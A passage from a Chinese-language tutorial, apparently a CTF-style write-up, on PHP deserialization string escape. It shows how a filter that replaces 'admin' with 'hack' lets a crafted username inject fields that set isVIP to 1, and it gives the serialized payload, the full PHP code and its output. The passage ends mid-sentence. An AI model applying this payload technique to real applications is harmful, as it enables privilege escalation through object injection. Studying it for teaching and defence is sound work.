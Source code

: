 我们构造对象，序列化后过滤，再输出：

```php
O:4:"user":3:{s:8:"username";s:105:"hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:47:"";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:5:"isVIP";i:0;}
```

仔细观察这一串字符串可以看到紫色方框内一共107个字符，但是前面只有显示105

![20210820131653.png](https://s2.loli.net/2023/01/04/QmBVMJCvFbYZ8cx.jpg)

**造成这种现象的原因是**：替换之前我们目标子串的位置是**123456**，一共**6**个字符，替换之后我们的目标子串显然超过**10**个字符，所以会造成计算得到的payload不准确

**解决办法是**：多添加**2**个**admin**，这样就可以补上缺少的字符。长度再减2

最终代码：

```php
<?php
class user{
public $username;
public $password;
public $isVIP;

public function __construct($u,$p){
$this->username = $u;
$this->password = $p;
$this->isVIP = 0;
}
}

function filter($s){
return str_replace("admin","hack",$s);
}

$a = new user('adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin','";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}');
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
```

输出结果：

```php
O:4:"user":3:{s:8:"username";s:115:"hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:47:"";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:5:"isVIP";i:0;}
```

![image-20210820130134043](https://s2.loli.net/2023/01/04/jnr7t4KDGWmdl2S.jpg)

这样长度就对上了。我们将反序列化后的对象输出：
